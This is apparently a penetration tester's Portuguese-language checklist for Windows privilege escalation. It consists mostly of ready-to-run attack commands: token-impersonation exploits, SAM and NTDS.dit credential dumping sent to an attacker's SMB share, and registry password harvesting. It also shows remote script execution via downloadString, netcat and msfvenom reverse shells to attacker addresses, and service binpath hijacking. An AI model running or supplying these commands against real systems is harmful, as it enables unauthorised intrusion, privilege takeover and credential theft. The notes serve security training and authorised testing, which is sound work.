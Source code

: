 # Windows PrivEsc

## Checklist

- [ ] [**Permissão do usuário**](#permissao-de-usuario)
- [ ] [**Navegar nos diretórios do usuário**](#navegacao-diretorios)
- [ ] [**WinPeas e PowerUp**](#winpeas-e-powerup)
- [ ] [**Senhas salvas no registro**](#credenciais-no-registro)
- [ ] [**Enumerar serviços locais/restritos**](#enumeracao-de-servicos)
- [ ] [**Enumerar scheduled tasks/tarefas agendadas**](#scheduled-tasks)
- [ ] [**Versão de kernel**](#versao-de-kernel)
- [ ] [**Reutilização de credenciais já obtidas**](#reuso-de-senha)
- [ ] [**Explorando Unquoted Service Path**](#unquoted-service-path)
- [ ] [**Enumeração de processos da máquina**](#enumeracao-de-processos)
- [ ] [**AlwaysInstallElevated**](#alwaysinstallelevated)
- [ ] [**Credenciais em cache**](#credenciais-em-cache)
- [ ] [**Enumerar dispositivos da máquina**](#enumerar-dispositivos-da-maquina)
- [ ] [**Enumerar senhas por meio de arquivos de configuração, anotações de usuários, etc...**](#enumeracao-de-senhas)
- [ ] [**Permissionamento de arquivos**](#permissionamento-de-arquivos-e-pastas)

Depois considerar esse link para verifcar uma ferramenta para obtenção de credencais em processos como firefox chrome e afins...

https://github.com/putterpanda/mimikittenz

<details markdown="1"><summary markdown="1">
## Permissão de usuário
</summary>

Aqui estamos a procura de permissões tais como:

SeImpersonate
SeDebug
SeBackup

Existem outros que podem ser explorados também, porém esses são o suficiente por enquanto:

**SeImpersonate**

```
whoami /priv
```

Aqui vale considerar os exploits Potatoes:

```
PrintSpoofer32.exe -i -c powershell
```

O exploit abaixo tem que considerar as portas abertas no firewall para ele funcionar adequadamente:

```
./jp.exe -t * -p c:\temp\s.bat [-l porta]
```
```
whoami /priv

SeImpersonate

PrintSpoofer32.exe -i -c powershell

JuicyPotato.exe -t * -p shell.bat -l 4444

jp.exe -t * -p shell.bat -l 4444

whoami /all

SE IMPERSONATE
```

**LEMBRAR DE QUE AS PORTAS UTILIZADAS NO COMANDO DEVEM ESTAR LIBERADAS NO FIREWALL.**

Esse juicyPotato que funcionou é o que se encontra neste link:

[https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip](https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip)

**SeBackup**

Aqui podemos fazer uma cópia dos arquivos system e sam para a máquina do atacante para quebrar os hashes de senha ou utilizá-los para fazer os ataques pass the hash:

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

**Observação de que no cenário de Domain Controller, temos de considerar a cópia do NTDS.DIT seguindo as seguintes etapas:**

Fazer um arquivo com o seguinte conteúdo:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```
Antes de transferir o arquivo para a máquina alvo, precisamos fazer uma conversão para ficar tudo ok:

    unix2dos test.dsh

Se atentar somente ao diretório direitinho no qual se está operando: Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

```
diskshadow /s test.dsh
robocopy /b z:\windows\ntds . ntds.dit
reg save hklm\system c:\Temp\system
```

Já na máquina do atacante, podemos executar o seguinte:

    impacket-secretsdump -ntds ntds.dit -system system local

</details>

<details markdown="1"><summary markdown="1">
## Navegação diretórios
</summary>

 Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio

**Verificar se dentro do C:/ também existe algo.**

cmd

```
dir /s /b /a:-d-h \Users\usuario | findstr /i /v "appdata"
```
Mais abrangente:
```
cd c:\users
dir /s
```
```
cd c:/
dir
```

Powershell
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Procurar por arquivos específicos
```
cd c:\users
cgi -recurse
```
Procurar por arquivos específicos
```
gci -recurse -filter <file_name> [-Path]
```
Procurar por programas instalados que sejam exploráveis
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Exemplos:

![qownnotes-media-PvAXBV](../../../media/qownnotes-media-PvAXBV.png)

Exemplos que não são exploráveis:

![qownnotes-media-QpQnUo](../../../media/qownnotes-media-QpQnUo.png)

![qownnotes-media-vflhHT](../../../media/qownnotes-media-vflhHT.png)


Importante ressaltar que quando houver algum binário que vamos precisar fazer algum tipo de engenharia reversa, vamos considerar os seguintes cenários:

[.NET podemos utilizar o dnSpy](../../..)

</details>

<details markdown="1"><summary markdown="1">
## Winpeas e PowerUp
</summary>

Rodar um scan automatizado. Lembrando que esses scans são pegos por antivírus, então a abordagem manual sempre é mais interessantes em pentests de produção.
Verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk.

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/winPEASx64.exe', 'c:\temp\w.exe')
./w.exe
```

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/PowerUp.ps1', 'c:\temp\p.ps1')
. ./p.ps1]
invoke-allchecks
```
</details>

<details markdown="1"><summary markdown="1">
## Credenciais no registro
</summary>
```
reg query HKLM /f *password* /t REG_SZ /s

reg query HKLM /f teamviewer /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s
```

### Autologon

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

reg query HKLM\SOFTWARE\Wow6432Node\TeamViewer\Version7 /v SecurityPasswordAES

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword   
```
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de Serviços
</summary>

Checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles

A presença de interfaces virtuais pode aferir a ideia de existir máquinas virtuais na máquina ou de anti vírus instalado

Esse comando enumera as conexões e portas abertas, pelas quais são fornecidos os serviços de rede tais como banco de dados, aplicações web e/ou serviços que estajam vulneráveis a algum tipo de exploit público, por exemplo .
Pesquisando a respeito do serviço, podemos encontrar fragilidades que podemos explorar para escalar privilégios na máquina. Mas, claro, sempre visando serviços que rodam em modo system (que é nosso alvo)

    netstat -ano

O comando abaixo exige privilégio administrativo

    netstat -anb

Enumerando as interfaces de rede

    ipconfig /all
    route print

### Weak service permissions

![qownnotes-media-jCADRm](../../../media/qownnotes-media-jCADRm.png)

![qownnotes-media-Yhpwrk](../../../media/qownnotes-media-Yhpwrk.png)

    ./accesschk.exe -ucwqv UsoSvc /accepteula
    
    ./accesschk.exe -ucwqv <servicename> /accepteula

Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"

![qownnotes-media-QfiKZv](../../../media/qownnotes-media-QfiKZv.png)

    net stop usosvc
    net start usosvc
</details>

<details markdown="1"><summary markdown="1">
## Scheduled Tasks
</summary>


```
schtasks /query /fo LIST /v

schtasks /query /fo LIST /v > schtasks.txt
copy schtasks.txt \\10.10.14.17\smb\scht.txt

dos2unix scht.txt
cat scht.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

![qownnotes-media-MkSFLk](../../../media/qownnotes-media-MkSFLk.png)

![qownnotes-media-eaAziX](../../../media/qownnotes-media-eaAziX.png)

![qownnotes-media-aeBsJo](../../../media/qownnotes-media-aeBsJo.png)

![qownnotes-media-bOauze](../../../media/qownnotes-media-bOauze.png)

Usando accesschk.exe

```
accesschk.exe /accepteula -quvw <username> <filename>
```

![qownnotes-media-JfEeCP](../../../media/qownnotes-media-JfEeCP.png)
</details>

<details markdown="1"><summary markdown="1">
## Versão de kernel
</summary>
https://github.com/SecWiki/windows-kernel-exploits

    Winver 
ou

    systeminfo

ou

    ver
```
systeminfo > si.txt
copy si.txt \\10.10.14.17\smb\si.txt
```

Na máquina do atacante podemos utilizar o Windows Exploit suggester (wes):

### Windows Exploit Suggester

```
pip install wesng

sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes

wes --update
dos2unix si.txt
wes si.txt
```

**Não menos importante, podemos fazer pesquisas no google também**

</details>

<details markdown="1"><summary markdown="1">
## Reuso de senha
</summary>
```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred
```

Outra opção seria:

```
$username = "arkham\batman"
$password = "Zx^#QZX+T!123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
new-pssession -computername . -credential $cred
```
Ainda outra opção seria com runas:

```
runas /user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
```
Existe um runas compilado que pode ser encontrado em:
https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

```
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> cmd
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> powershell
```
</details>

<details markdown="1"><summary markdown="1">
## Unquoted Service Path
</summary>
cmd

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
Podemos utilizar uma abordagem com o registro do Windows também:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\

Para ter um pouco mais de precisão, podemos utilizar findstr:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ | findstr "<nome_do_serviço>"


Powershell

```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de processos
</summary>
```
get-process
wmic process
tasklist
tasklist /svc
tasklist /v /fi "username eq system"
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

    Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

</details>
<details markdown="1"><summary markdown="1">
## AlwaysInstallElevated
</summary>
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_Atacante> LPORT=<Porta> -a x64 --platform Windows -f msi -o bin.msi
```

Baixar para a máquina da vítima o ".msi"

    msi /i bin.msi
</details>

<details markdown="1"><summary markdown="1">
## Credenciais em cache
</summary>
```
cmdkey /list
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```
</details>

<details markdown="1"><summary markdown="1">
## Enumerar dispositivos da máquina
</summary>

```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object Display Name, Start Mode, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```
```
wmic logicaldisk get deviceid, volumename, description

#powershelll
powershell -c get-psdrive -psprovider filesystem

mountvol
```
Depois de enumerar, eh interessante montarmos o volume pra verificar se temos algo.

mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\

    mountvol

Depois dee enumerar, eh interessante montarmos o volume pra verificar se temos algo.

    mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de senhas
</summary>
    findstr /si password *.doc *.txt *.ini *.config
    
    gci -recurse -filter passwd*
    
    dir /s *pass* == *cred* == *ssh* == *.config*
    
    reg query HKLM /f *password* /t REG_SZ /s
    
    reg query HKLM /f teamviewer /t REG_SZ /s
    
    reg query HKCU /f password /t REG_SZ /s
    
    
    Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
    
    driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
    
    Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
</details>

<details markdown="1"><summary markdown="1">
## Permissionamento de arquivos e pastas
</summary>
```
(new-object net.webclient).downloadfile('http://10.10.14.17/4-privilege%20escalation/accesschk64.exe', 'c:\temp\a.exe')

.\a.exe -uwqs -accepteula Users c:\*.*
.\a.exe -uwqs -accepteula "Authenticated Users" c:\*.*

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

Full name

```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uws "Everyone" "C:\Program Files"
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
</details>

## Pontos de atenção

Aqui um ponto de atenção é que, caso não encontre nada na máquina, vale considerar que o serviço pelo qual entramos (geralmente web app), pode fornecer um ponto de entrada para a escalação de priilégio por meio da aplicação que está rodando no contexto system. às vezes a verificação ocorre por tentiva e erro mesmo.

Detalhe que daqui em diante, as enumerações são todas vistas nos processos automatizados. Então é bom não deixar de verificar este último ponto e um double check manual mesmo.






## Binary planting

```
sc config [service_name] binpath= "C:\temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```

Uma vez obtido system na máquina, é possível extrair a SAM da seguinte maneira:

por meio dos registros:

Na máquina vítima

```
reg save HKLM\SAM \\10.10.14.11\smb\sam
reg save HKLM\SYSTEM \\10.10.14.11\smb\system
```

Na máquina atacante:

```
impacket-secretsdump -sam sam -system system local
```

Acessando diretamente a o hard drive da máquina:

```
sudo guestmount --add '/tmp/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro -v /mnt/vhd

cp vhd/Windows/System32/config/SAM /home/acosta/Downloads
cp vhd/Windows/System32/config/SYSTEM /home/acosta/Downloads
impacket-secretsdump -sam SAM -system SYSTEM local
```

ou até mesmo fazendo o port forwarding

## Enumeração de regras de firewall

    netsh advfirewall show currentprofile
    
    netsh advfirewall firewall show rule name=all
    
     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name


## Writable files
 
     Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
